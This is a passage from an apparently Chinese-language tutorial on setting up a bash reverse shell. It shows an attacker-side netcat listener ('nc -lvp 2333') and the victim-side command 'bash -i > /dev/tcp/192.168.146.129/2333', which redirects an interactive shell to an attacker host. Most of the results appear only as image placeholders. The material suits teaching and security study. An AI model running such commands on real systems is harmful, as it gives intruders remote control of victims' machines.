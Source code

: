 ### **实例1：**

我们输出字符串到这个文件里（当然，文件名中ip的机器要开启监听 nc -lvp 2333）

![img](assets/1668670667168-c70df77e-ba2f-4e66-b68d-8148d2191bf0.png)

攻击机上的输出

![img](assets/1668670742403-9de937c5-f30a-4ac2-bdfd-5a4a939ffeae.png)

### **实例2：**

攻击机上的输入

![img](assets/1668670904007-02875eb6-e44d-45a5-8b94-6ab2d2599434.png)

受害者机器上的输出

![img](assets/1668670930991-8dbedc72-0fc1-4b09-b901-d950a3fc6969.png)

### **3.交互重定向**

为了实现交互，我们需要把受害者交互式shell的输出重定向到攻击机上
在受害者机器上输入

```shell
bash -i > /dev/tcp/192.168.146.129/2333
```
